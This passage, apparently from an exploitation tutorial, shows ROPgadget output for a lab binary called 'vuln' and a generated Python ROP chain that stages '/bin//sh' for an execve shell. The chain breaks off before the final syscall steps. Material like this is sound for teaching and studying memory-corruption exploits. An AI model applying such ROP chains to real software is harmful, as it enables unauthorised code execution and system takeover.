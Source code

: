 The same tool can also be used to generate a gadget chain to spawn a shell.

```terminal
$ ROPgadget --binary vuln --ropchain --silent --badbytes "0a"

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x80590f2 mov dword ptr [edx], eax ; ret
        [+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret
        [+] Gadget found: 0x80b073a pop eax ; ret
        [+] Gadget found: 0x804fb80 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

        [+] Gadget found: 0x804fb80 xor eax, eax ; ret
        [+] Gadget found: 0x808054e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

        [+] Gadget found: 0x8049022 pop ebx ; ret
        [+] Gadget found: 0x8049e29 pop ecx ; ret
        [+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

        [+] Gadget found: 0x804a3c2 int 0x80

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e29) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x080e5060) # padding without overwrite ebx
```